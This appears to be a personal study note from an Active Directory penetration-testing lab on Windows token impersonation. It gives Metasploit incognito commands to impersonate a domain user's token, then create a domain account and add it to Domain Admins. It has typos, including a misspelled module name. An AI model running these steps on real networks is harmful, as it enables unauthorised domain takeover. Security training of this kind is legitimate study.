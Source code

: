 # Token Impersonation

## Tokens
- Temporary keys that allow you access ti a system/network without having to provide credentials each time you access a file (Cookies for computers)

### Two Types
#### Delegate
- Created for logging into a machine or using Remote Desktop
#### Impersonate
- "non-interactive" such as attaching a network drive or a domain login scipt

## Attack time

- get shell via [psexec](C:\Users\felix\Documents\Notes\ADDS\InitialAttackVectors\GainingShellAccess)
```bash
load incocognito
```
```bash
impersonate_token marvel\\fcastle
```
- "\\\\" for character escaping

### Add user

```bash
net user /add hawkeye Password1@ /domain
```
### Elevate User
```bash
net group "Domain Admins" hawkeye /add /domain
```